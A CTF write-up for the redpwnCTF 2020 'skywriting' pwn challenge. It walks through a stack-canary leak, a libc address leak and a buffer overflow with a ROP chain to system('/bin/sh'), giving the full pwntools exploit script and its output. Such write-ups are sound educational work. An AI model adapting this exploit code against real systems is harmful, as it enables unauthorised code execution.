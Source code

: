 # redpwnCTF 2020

## pwn/skywriting

> NotDeGhost
> 
> 480
>
> It's pretty intuitive once you [disambiguate some homoglyphs](https://medium.com/@TCS_20XX/pactf-2018-writeup-skywriting-a5f857463c07), I don't get why nobody solved it...
> 
> `nc 2020.redpwnc.tf 31034`
>
> [`skywriting.tar.gz`](skywriting.tar.gz)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_ _stack-canary_


## Summary

Canary leak to enable BOF, ROP, Shell.

> BTW, this is the first time I noticed the _homoglyphs_ link in the task description.  It has zero to do with this challenge.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Default `gcc` mitigations in place. 

    
### Decompile with Ghidra

![](main.png)

At first glance, if you start out with anything other than `1`, then you get `/bin/zsh`, easy:

```
# nc 2020.redpwnc.tf 31034
Hello there, do you want to write on the sky?
no
:(, take this shell instead
```

No shell, it wasn't going to be that easy, but worth checking anyway.

So, start out with a `1` and you'll be in a loop until you send `notflag{a_cloud_is_just_someone_elses_computer}\n`.  While in this loop `read` will read up to `0x200` bytes into a buffer that will bump up to the canary after `0x98 - 0x10` bytes (see Ghidra stack diagram).

The stack check does not happen until after the loop exits, so you can safely overwrite and read the stack.

Ignore `FUN_0010093a()`, it's just there to provide one of five different trolling messages.


### Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./skywriting')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64',os='linux')

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31034)
```

Initial setup.  The libc version was implied in the included `Dockerfile` (Ubuntu 18.04).

```python
# get canary
p.sendlineafter('sky? \n','1')
payload = (0x98 - 0x10 + 1) * b'A'
p.sendafter('shot: ',payload)
p.recvuntil((0x98 - 0x10 + 1) * b'A')
_ = b'\x00' + p.recv(7)
canary = u64(_)
log.info('canary: ' + hex(canary))
```

First pass, leak the canary.  Established in the Analysis section, the canary is `0x98 - 0x10` down from the input buffer (`local_98`), by adding `1` more `A` to the payload we'll corrupt the least significant canary byte, a byte that is always `0x00`, so no information lost.  By replacing the null, the `printf` on line 32 (see decompile above) will print all our `A`'s followed by the canary and anything else down stack until a null is reached.

> Notice the use of `send` vs `sendline`, we do not want a NL corrupting the 2nd to last canary byte, then we lose information.  OTOH, I guess if the NL landed on the last byte (the known null byte), then it'd be fine.

```python
# get libc, just after rbp
# __libc_start_main+231
payload = 0x98 * b'A'
p.sendafter('shot: ',payload)
p.recvuntil(0x98 * b'A')
_ = p.recv(6) + b'\x00\x00'
__libc_start_main = u64(_) - 231
log.info('__libc_start_main: ' + hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
```

Second pass.  Leak libc.  I used GDB to find libc in the stack.  I just set a break point at the first `puts` and then looked at the stack from the canary down:

```
0x00007fffffffe538│+0x0098: 0xca6f52637c914000
0x00007fffffffe540│+0x00a0: 0x0000555555554b70  →   push r15 ← $rbp
0x00007fffffffe548│+0x00a8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

The first line is the canary, and right after `$rbp` is the return address that also happens to be a libc address, so we just need to write out `0x98` (`local_98` is `0x98` bytes from the return address--see Ghidra stack diagram) bytes to get to the return address which happens to be `__libc_start_main+231` from libc.

The libc leak code is not unlike the canary leak code.  In both cases as long as there is no null in the canary or the last 6 bytes of the return address, we're good to go (probably not a bad idea to check).

> x86_64 addresses are only 48-bits (for now), so we only need to collect 6 bytes.

```python
rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

# lets get out of here
payload  = b'notflag{a_cloud_is_just_someone_elses_computer}\n\x00'
payload += (0x98 - 0x10 - len(payload)) * b'A'
payload += p64(canary)
payload += 8 * b'B'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.symbols['system'])
p.sendafter('shot: ',payload)

p.interactive()
```

Final pass.  With the leaked canary and libc location known we can BOF and ROP to a shell.  To get past the `strcmp` check, a null needs to be inserted in the payload--that is as far as `strcmp` will check.  The rest of the payload is `A`'s up to, but not including the canary, then the leaked canary, then any 8 bytes for RBP, then our ROP chain to a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/skywriting/bin/skywriting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2020.redpwnc.tf on port 31034: Done
[*] canary: 0x32aac44eaca73d00
[*] __libc_start_main: 0x7f690a80aab0
[*] baselibc: 0x7f690a7e9000
[*] Loaded 196 cached gadgets for '/lib/x86_64-linux-gnu/libc.so.6'
[*] Switching to interactive mode
Good job! You did it!
$ cat flag.txt
flag{a_cLOud_iS_jUSt_sOmeBodY_eLSes_cOMpUteR}
```